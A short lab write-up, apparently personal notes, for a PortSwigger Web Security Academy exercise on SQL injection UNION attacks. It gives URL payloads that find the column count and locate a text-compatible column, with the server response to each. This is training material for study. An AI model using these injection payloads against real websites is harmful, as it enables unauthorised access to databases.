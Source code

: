 # Lab: SQL injection UNION attack, finding a column containing text
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. 
* Hint: The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 

## Exp
1. Determine how many columns it has
You can use the technique from previous question.
Payload: `?category=' UNION SELECT NULL,NULL,NULL--`
2. Start to guess which column contains text
For example: 
`?category=Accessories' UNION (SELECT 'a', NULL, NULL)--` $\to$ Internal Server Error
`?category=Accessories' UNION (SELECT NULL, 'a', NULL)--` $\to$ <font color="FF0000">No Error</font>
`?category=Accessories' UNION (SELECT NULL, NULL, 'a')--` $\to$ Internal Server Error

    **Then we can consider which column is text-based string**

    Payload: `?category=Accessories' UNION (SELECT NULL, 'DoimDt', NULL)--`
    :::spoiler Success Screenshot
    ![](https://imgur.com/LtSoc2E.png)
    :::

## Reference